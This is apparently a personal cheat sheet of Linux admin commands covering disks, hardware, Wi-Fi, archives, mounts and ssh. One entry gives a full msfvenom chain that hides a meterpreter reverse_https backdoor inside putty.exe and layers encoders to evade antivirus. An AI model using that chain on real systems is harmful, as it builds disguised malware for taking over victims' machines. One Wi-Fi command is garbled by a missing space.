 # Short howto

## Disk check
badblocks -v -n /dev/sda # -n for non-destruction read-write test
smartctl -a /dev/sda

## du hidden files
du -sch .[!.]* * |sort -h

## Hardware info
dmidecode [-t memory]
ethtool	enp0s25 	// link speed
lsusb
lspci
hwinfo

## Clone web page with HTTrack
httrack --near --display --extra-log --keep-alive --tolerant --can-go-up-and-down -u2 --urlhack -T60 -R9 -O ./. 'http://'

## Scan for SSID / get info about AP
sudo iw dev wlp3s0 scan | grep SSID
iw dev wlp1s0 [link | station dump | scan]

## Get max (not ultimate) compression with tar.xz
XZ_OPT=-9 tar cJf export.tar.xz export/

## Mount CIFS
mount -t cifs -o username=USER,domain=DOMAIN,uid=1000,gid=1000 //xxx.xxx.xxx.xxx/Files /media/fs/

## Encode payload multiply times with msfvenom
msfvenom -p windows/meterpreter/reverse_https -f raw -e x86/shikata_ga_nai -x /tmp/putty.exe -k |msfvenom -p - -a x86 --platform windows -e x86/jmp_call_additive -f raw | msfvenom -p - -a x86 --platform windows -f raw -e x86/call4_dword_xor | msfvenom -p - -a x86 --platform windows -f exe -o test_putty -e x86/shikata_ga_nai

## Resize root partition
1. fdisk
	a. list
	b. delete
	c. new with first sector exactly like on a.
	d. write
2. resize2fs /dev/sda1

## Run nohup command with ssh
ssh -n -f user@host "sh -c 'cd /whereever; nohup ./whatever > /dev/null 2>&1 &'"

## Connect to open wifi
iwconfig wlp3s0 essid <name>
iwconfigwlp3s0 ap any


